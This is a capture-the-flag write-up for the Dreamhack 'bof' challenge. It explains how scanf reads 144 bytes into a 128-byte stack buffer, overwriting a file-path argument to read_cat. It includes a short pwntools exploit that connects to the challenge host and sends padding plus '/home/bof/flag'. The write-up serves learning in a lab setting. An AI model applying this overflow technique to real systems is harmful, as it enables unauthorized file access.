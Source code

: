 Dreamhack - bof
Author : velix

###################
### 1. Analysis ###
###################

In the main() function, there is a buffer buf of size 128 bytes.
After reading user input with scanf("%144s", buf), the program calls read_cat(&local_18).
The variable local_18 is a 4-byte value located directly after buf on the stack. 

##########################
### 2. Vulnerabilities ###
##########################

There is a classic buffer overflow vulnerability.
Since scanf reads up to 144 bytes into a 128-byte buffer, it allows us to overwrite the value of local_18.
The overwritten local_18 is then used as the argument to read_cat(), which attempts to open and read from that file path.

#######################
### 3. Exploitation ###
#######################

from pwn import *

p = remote('host3.dreamhack.games', 18281)
read_cat = 0x401236

payload = b'A' * 128
#payload += b'B' * 8 (for RBP)
payload += b'/home/bof/flag'

p.sendline(payload)
p.interactive()

The file we want to read is /home/bof/flag.
I crafted a payload where:
I filled the first 128 bytes with junk ('A' * 128).
Then, I wrote the string /home/bof/flag\x00 starting at the local_18 position, directly after the buffer.
As a result, when read_cat() is called with &local_18, it receives the string /home/bof/flag and successfully opens the file.

#################
### 4. Result ###
#################

I successfully read the contents of /home/bof/flag and got the flag.
The exploitation worked by simply overflowing the buffer and placing the correct file path at the expected argument location.

// [ NOTE ]
// At first, I had no idea what the read_cat function was doing, so I was kind of lost.
// But through debugging, I realized it's really important to understand how open/read work together.
// Also, just overflowing the buffer with "A"s isn’t enough —
// you need to clearly understand what’s getting placed on the stack for the exploit to work properly.
// From now on, I won’t blindly spam "A"s — I’ll think carefully about what I’m writing and why.

